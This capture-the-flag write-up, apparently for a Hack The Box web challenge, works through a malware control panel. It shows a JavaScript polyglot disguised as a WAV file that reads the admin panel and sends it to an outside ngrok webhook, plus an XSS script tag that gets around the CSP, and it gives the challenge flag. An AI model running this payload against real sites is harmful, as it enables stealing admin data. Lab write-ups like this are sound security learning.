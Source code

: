 One more login screen for the next challenge:

![image](https://user-images.githubusercontent.com/80063008/227709302-e2c0023c-fb15-466e-936e-4dccb557ccc1.png)

At first I analyzed the `spybug-agent.go` file which was provided initially. The full source code was provided later. From the agent code I could figure out some endpoints and some functionality.

![image](https://user-images.githubusercontent.com/80063008/227709560-d1e89851-c4f5-4121-868f-745b3d9ee05b.png)

For example, we have a `/agents/register` endpoint. This gives us two UUIDs. An identifier and a token.

![image](https://user-images.githubusercontent.com/80063008/227709545-db9b2da0-8d21-48b7-b9f7-7ac1cf6b7e9e.png)

On the `/agents/check/<identifier>/<token>` endpoint we can check the agent we just registered but we get nothing more than an OK.

![image](https://user-images.githubusercontent.com/80063008/227709622-5d527a9e-6103-46c3-b3e5-6f43ea1372b8.png)

We also have a POST request to `/agents/details/<identifier>/<token>` which takes some user input. We can send a "hostname", "platform", "arch".

![image](https://user-images.githubusercontent.com/80063008/227709678-6edeb7d1-bc6c-40c3-ba67-9b9037a61008.png)

I built that request in BurpSuite but again, we get nothing more than an OK:

![image](https://user-images.githubusercontent.com/80063008/227709738-14f7f831-58f2-4ef5-8c95-09d3f12423a1.png)

We have another function to an `/agents/upload/<identifier>/<token>` endpoint.

![image](https://user-images.githubusercontent.com/80063008/227709797-cfaab1dd-ccf6-441a-803f-16f30ca4606c.png)

This expects us to send a POST request to upload a wave file within a form-data request with the filename being "recording"

![image](https://user-images.githubusercontent.com/80063008/227709827-6835c5fb-27b7-46bd-bc18-49da270f0bc4.png)

I tried to do the multipart/form-data upload but I kept getting a `Bad Request` response. That is until they released the rest of the source code and I noticed this in `control-panel/routes/agents.js`:

![image](https://user-images.githubusercontent.com/80063008/227710300-8d7738e0-8883-471d-a2ae-baf7c5fa3b77.png)

The server expects a specific "audio/wave" mimetype and the ".wav" extension. We also notice another important part in the same file. There's an additional filter to the file upload.

![image](https://user-images.githubusercontent.com/80063008/227710128-a82d1000-9ddf-4f5b-a206-8bb98f503ab7.png)

The server checks the file header to ensure that it is a wave file. Or at least that is the intent. What it actually does is it only checks if the specific hex values are located anywhere in the file. It's not actually checking the file header. This means we can send a request like this and we no longer get a "Bad Request" error message. We actually get an UUID assigned to the file upload:

![image](https://user-images.githubusercontent.com/80063008/227710411-b952e25a-d000-4203-9b40-010114f93ad6.png)

In the `control-panel/utils/adminbot.js` we also notice that there's a bot accessing the admin panel. 

![image](https://user-images.githubusercontent.com/80063008/227710967-3b1b4a2f-aa63-4492-8139-19e7880bc324.png)

It doesn't click on anything though. At this point I wanted to have a look at the admin panel myself. I modified the `build-docker.sh` file to put a password in the ADMIN_SECRET variable:

![image](https://user-images.githubusercontent.com/80063008/227710551-35a4ff30-f2ec-4041-bc50-a8c380578f5c.png)

I logged in and now can see the admin panel with some content that I passed at a certain point. A POST request sending details and an upload:

![image](https://user-images.githubusercontent.com/80063008/227710597-595a083e-5c4a-42d1-9b29-2542621ec693.png)

Inspecting the audio controls, we can also see where it's taking it from:

![image](https://user-images.githubusercontent.com/80063008/227710902-bac8c224-804a-4fc1-96d0-8317f4a9d8be.png)

Now that I can see what the bot would see. I tried a simple XSS payload in the hostname field but I got blocked by the CSP:

![image](https://user-images.githubusercontent.com/80063008/227710622-7992f5a2-0f50-4bb8-83f1-b379a6989f54.png)

Let's take a closer look at that CSP. 

![image](https://user-images.githubusercontent.com/80063008/227710634-fe67ad11-a1fa-4001-8a8b-a567b48de469.png)

We have `script-src 'self'` but there's also `object-src 'none'`. After doing some research on various CSP bypasses, I found this very helpful blog: https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d

This blog presents various scenarios, including Scenario 5 which seems very applicable to us:

![image](https://user-images.githubusercontent.com/80063008/227710708-757af160-020c-47ee-bd9d-15092f87e37e.png)

Now it all makes sense. We have unsanitized input in the /agents/details endpoint and file upload which can be bypassed in /agents/upload. We should have what we need. 

**Step 1**: Register a new agent to get identifier and token:
![image](https://user-images.githubusercontent.com/80063008/227710772-66c30cc6-9462-4a36-b512-1abcca1679a7.png)

**Step 2**: Upload file with recording name in the form-data, .wav extension, audio/wave mimetype and the wav magic header anywhere in the file (it doesn't check for the magic bytes to be the first ones). I used // to comment it out in the javascript code so that javascript parsing won't error out. The javascript below is simply accessing the admin panel grabbing the response and sending it to our webhook.

```javascript
var target = 'http://localhost:1337/panel';
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;
var attack = 'https://5816-188-24-131-248.eu.ngrok.io';
var req2 = new XMLHttpRequest();
req2.open('POST', attack, false);
req2.send(response);
```
![image](https://user-images.githubusercontent.com/80063008/227710815-e6915a95-2557-4dab-a0a1-6a63d90ca7ae.png)

**Step 3**: Post details with the UUID filename within the XSS payload to load the javascript from the local source thus fulfilling the script-src "self" object-src 'none' CSP.

```
<script src=\"/uploads/076095a0-7b50-4dac-b6eb-9900062c5c68\"></script>
```
![image](https://user-images.githubusercontent.com/80063008/227714999-4e397b9f-cd17-4529-a17c-398886a98be8.png)

After a short while, waiting for the bot eagerly, we get the flag:

![image](https://user-images.githubusercontent.com/80063008/227710858-fda45a4f-9f88-42e6-849c-149e25fc1eb5.png)

All in all, this one was my favourite challenge as it presented multiple hurdles and steps where we really needed to think outside the box. Attention to detail every step of the way was important and I enjoyed that.

HTB{p01yg10t5_4nd_35p10n4g3}
